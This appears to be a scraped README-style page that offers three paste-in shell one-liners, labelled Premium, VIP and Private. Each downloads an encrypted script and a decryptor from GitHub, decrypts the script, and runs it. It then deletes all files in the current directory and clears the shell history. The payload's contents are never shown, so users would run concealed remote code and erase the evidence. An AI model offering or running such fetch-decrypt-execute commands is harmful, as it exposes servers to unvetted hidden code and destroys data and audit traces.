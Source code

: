 #Premium

`yum install install openssl coreutils gzip wget -y && wget https://raw.githubusercontent.com/reyluar03/linor/master/linor_premium.sh && wget https://raw.githubusercontent.com/reyluar03/rey/master/pandadec.sh && chmod +x pandadec.sh && ./pandadec.sh decrypt linor_premium.sh premdec.sh && chmod +x premdec.sh && ./premdec.sh && rm * && history -c `

#VIP

`yum install install openssl coreutils gzip wget -y && wget https://raw.githubusercontent.com/reyluar03/linor/master/linor_vip.sh && wget https://raw.githubusercontent.com/reyluar03/rey/master/pandadec.sh && chmod +x pandadec.sh && ./pandadec.sh decrypt linor_vip.sh premdec.sh && chmod +x premdec.sh && ./premdec.sh && rm * && history -c `

#Private

`yum install install openssl coreutils gzip wget -y && wget https://raw.githubusercontent.com/reyluar03/linor/master/linor_private.sh && wget https://raw.githubusercontent.com/reyluar03/rey/master/pandadec.sh && chmod +x pandadec.sh && ./pandadec.sh decrypt linor_private.sh premdec.sh && chmod +x premdec.sh && ./premdec.sh && rm * && history -c ` 

